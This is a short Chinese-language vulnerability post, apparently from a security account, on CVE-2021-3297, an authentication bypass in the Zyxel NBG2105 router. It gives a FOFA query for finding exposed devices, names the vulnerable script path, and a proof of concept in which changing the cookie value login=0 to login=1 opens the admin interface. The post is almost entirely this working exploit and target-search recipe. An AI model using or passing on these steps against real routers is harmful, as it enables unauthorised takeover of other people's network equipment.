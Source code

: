 #  Zyxel-NBG2105-身份验证绕过（CVE-2021-3297）   
原创 骇客安全  骇客安全   2025-04-13 06:19  
  
# FOFA：  
  
```
app="ZyXEL-NBG2105"
```  
  
  
**漏洞代码：**  
  
```
http://target/js/util_gw.js
```  
  
  
  
**PoC：**  
  
```
Cookie: login=1;
只需要将cookie中login=0 修改为login=1即可直接进入管理界面。
```  
  
  
  
  
  
